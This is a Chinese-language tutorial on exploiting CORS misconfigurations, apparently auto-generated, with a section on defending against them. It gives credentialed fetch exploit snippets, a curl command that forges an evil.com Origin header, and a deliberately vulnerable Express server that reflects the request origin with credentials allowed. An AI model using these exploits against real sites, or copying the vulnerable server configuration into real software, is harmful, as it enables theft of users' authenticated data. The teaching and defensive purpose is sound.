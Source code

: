 # CORS配置错误利用的基本概念

## 1. 概述

跨域资源共享（Cross-Origin Resource Sharing, CORS）是一种浏览器机制，允许网页从不同源的服务器请求资源。CORS配置错误可能导致严重的安全问题，攻击者可以利用这些错误绕过同源策略，窃取敏感数据或执行恶意操作。

## 2. 技术原理解析

### 2.1 同源策略与CORS

同源策略（Same-Origin Policy, SOP）是浏览器的安全机制，限制网页脚本访问不同源的资源。CORS通过HTTP头允许服务器声明哪些源可以访问其资源。

### 2.2 CORS工作机制

CORS通过以下HTTP头实现：

- `Origin`: 请求源
- `Access-Control-Allow-Origin`: 允许的源
- `Access-Control-Allow-Credentials`: 是否允许携带凭证（如cookies）

### 2.3 CORS配置错误类型

1. **宽松的`Access-Control-Allow-Origin`**：设置为`*`，允许所有源访问。
2. **反射型`Access-Control-Allow-Origin`**：直接反射请求中的`Origin`头，未进行验证。
3. **不正确的`Access-Control-Allow-Credentials`**：允许凭证但未限制源。

## 3. CORS配置错误的危害

- **数据泄露**：攻击者可以窃取敏感数据。
- **CSRF攻击**：利用CORS配置错误执行跨站请求伪造攻击。
- **权限提升**：通过CORS错误获取更高权限。

## 4. CORS配置错误利用技巧

### 4.1 宽松的`Access-Control-Allow-Origin`

攻击者可以构造恶意网页，直接访问目标资源。

```html
<script>
  fetch('https://vulnerable-site.com/api/data', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => console.log(data));
</script>
```

### 4.2 反射型`Access-Control-Allow-Origin`

攻击者可以伪造`Origin`头，诱导服务器反射恶意源。

```bash
curl -H "Origin: https://evil.com" https://vulnerable-site.com/api/data
```

### 4.3 不正确的`Access-Control-Allow-Credentials`

攻击者可以携带凭证访问敏感资源。

```html
<script>
  fetch('https://vulnerable-site.com/api/data', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => console.log(data));
</script>
```

## 5. 攻击步骤与实验环境搭建

### 5.1 实验环境搭建

1. **目标服务器**：配置一个存在CORS错误的Web应用。
2. **攻击者服务器**：搭建一个恶意网页，用于发起CORS请求。

### 5.2 攻击步骤

1. **识别CORS配置错误**：使用浏览器开发者工具或`curl`命令检查`Access-Control-Allow-Origin`头。
2. **构造恶意请求**：编写恶意脚本，发起跨域请求。
3. **窃取数据**：通过恶意脚本获取目标资源的数据。

### 5.3 实验代码

**目标服务器（Node.js）**

```javascript
const express = require('express');
const app = express();

app.use((req, res, next) => {
  res.header('Access-Control-Allow-Origin', req.headers.origin || '*');
  res.header('Access-Control-Allow-Credentials', 'true');
  next();
});

app.get('/api/data', (req, res) => {
  res.json({ secret: 'This is sensitive data' });
});

app.listen(3000, () => {
  console.log('Server running on http://localhost:3000');
});
```

**攻击者网页**

```html
<!DOCTYPE html>
<html>
<head>
  <title>CORS Exploit</title>
</head>
<body>
  <script>
    fetch('http://localhost:3000/api/data', {
      credentials: 'include'
    })
    .then(response => response.json())
    .then(data => {
      document.body.innerHTML = JSON.stringify(data);
    });
  </script>
</body>
</html>
```

## 6. 防御措施

1. **严格限制`Access-Control-Allow-Origin`**：仅允许信任的源。
2. **验证`Origin`头**：确保反射的`Origin`头是合法的。
3. **避免使用`Access-Control-Allow-Credentials`**：除非绝对必要。
4. **使用CORS中间件**：如`cors`库，自动处理CORS头。

```javascript
const cors = require('cors');
app.use(cors({
  origin: 'https://trusted-site.com',
  credentials: true
}));
```

## 7. 总结

CORS配置错误是一种常见的安全漏洞，可能导致严重的数据泄露和权限提升问题。通过理解CORS的工作原理和配置错误类型，开发人员可以更好地防御此类攻击。同时，攻击者可以利用这些错误进行恶意操作，因此必须采取严格的防御措施。

通过本文的技术解析和实战演练，读者应能够深入理解CORS配置错误的基本概念、利用技巧和防御方法，从而在实际应用中更好地保护Web应用的安全。

---

*文档生成时间: 2025-03-11 13:24:30*

